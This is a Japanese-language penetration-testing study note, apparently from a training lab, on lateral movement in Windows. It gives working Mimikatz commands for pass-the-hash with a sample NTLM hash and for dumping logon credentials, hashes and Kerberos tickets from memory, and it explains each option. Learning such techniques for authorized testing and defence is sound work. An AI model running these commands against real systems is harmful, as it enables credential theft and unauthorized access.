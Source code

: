 ### Windowsで横方向への攻撃
具体的なシナリオ
Kali LinuxとかでターゲットのWindowsを攻撃して、そこからさらに掌握したWindowsで横展開していくイメージ
#### Mimikatz
- Mimikatzには`sekurlsa::pth`という名前のモジュールがあり、ユーザーのパスワードのハッシュを使用してプロセスを開始することで、パス・ザ・ハッシュ攻撃を実行できる

**NTLM ハッシュを使って `julio` の認証を突破し、新しい `cmd.exe` のセッションを取得**
```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
- mimikatz.exe
	- Mimikatz を起動する。
- privilege::debug
	- 管理者権限を取得（デバッグ特権を有効化）。
	- sekurlsa::pth はカーネルメモリを直接操作するため、この権限が必要。
- `sekurlsa::pth`（Pass-the-Hash 攻撃）
	- Pass-the-Hash 認証を使って 新しいコマンドプロンプト (cmd.exe) を開く

| オプション             | 説明                                                     |
| ----------------- | ------------------------------------------------------ |
| `/user`           | 偽装したいユーザー名。                                            |
| `/rc4` or `/NTLM` | ユーザーのパスワードの NTLM ハッシュ。                                 |
| `/domain`         | なりすますドメイン名（ローカルユーザーの場合はコンピュータ名, `localhost`, `.` を指定）。 |
| `/run`            | ユーザーのコンテキストで実行するプログラム（指定しない場合は `cmd.exe`）。             |
**Mimikatzでログイン情報を抽出**
```PowerShell
mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

```sh
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
- mimikatz.exe
	- Mimikatz を起動
- privilege::debug
	- 管理者権限を取得
	- sekurlsa::logonpasswords を実行するには デバッグ権限 が必要。
- sekurlsa::logonpasswords
	- **現在ログインしているユーザーのパスワード情報を取得**
	- メモリ上にある認証情報（パスワードハッシュなど）をダンプ
	- 取得できる情報：
	    - NTLM ハッシュ
	    - SHA1 ハッシュ
	    - DPAPI キー
	    - Kerberos チケット
	    - 生パスワード（`wdigest` などが有効なら）
